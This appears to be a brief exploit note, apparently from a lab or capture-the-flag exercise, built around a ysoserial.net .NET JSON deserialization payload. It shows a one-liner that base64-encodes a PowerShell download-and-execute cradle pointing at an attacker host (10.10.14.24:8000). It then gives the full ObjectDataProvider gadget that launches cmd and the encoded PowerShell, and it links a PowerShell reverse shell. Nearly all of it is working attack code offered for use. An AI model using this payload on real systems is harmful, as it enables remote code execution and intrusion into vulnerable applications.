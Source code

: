  ## Payload generated with ysoserial.net (https://github.com/pwntester/ysoserial.net) on Windows machine

 To generate our encoded powershell command: 
 ```echo -n "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.24:8000/exploit.ps')" | iconv -t UTF-16LE | base64 -w 0; echo```
 
 The final payload:
```
 {
     '$type': 'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
     'MethodName': 'Start',
     'MethodParameters': {
         '$type': 'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
         '$values': ['cmd',
                     '/c powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIANAA6ADgAMAAwADAALwBlAHgAcABsAG8AaQB0AC4AcABzACcAKQA=']
     },
     'ObjectInstance': {
         '$type': 'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
 }
 ```

Powershell reverse shell from here
```
https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5
```